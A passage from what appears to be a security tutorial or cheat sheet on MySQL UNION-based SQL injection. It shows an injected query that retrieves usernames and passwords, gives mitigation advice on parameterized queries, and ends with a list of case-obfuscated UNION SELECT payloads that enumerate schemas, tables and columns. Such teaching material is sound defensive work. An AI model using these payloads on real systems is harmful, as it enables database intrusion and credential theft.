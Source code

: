 To exploit this vulnerability, an attacker can inject a UNION SELECT statement to retrieve data from another table, such as the `passwords` table:

```sql
SELECT name, email FROM users WHERE id = '1' UNION SELECT username, password FROM passwords;
```

In this example, the attacker is injecting a UNION SELECT statement to retrieve the `username` and `password` columns from the `passwords` table. The result of this query will be combined with the original result set and returned to the attacker.

### Mitigation

To prevent MySQL Union Based attacks, it is essential to implement proper input validation and parameterized queries. Input validation should include sanitizing user-supplied data and using whitelisting or blacklisting techniques to filter out potentially malicious input.

Additionally, using parameterized queries or prepared statements can help protect against SQL injection attacks by separating the SQL code from the user-supplied data.

Regular security assessments and code reviews can also help identify and fix vulnerabilities in the application's SQL queries.
```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```
## SSRF
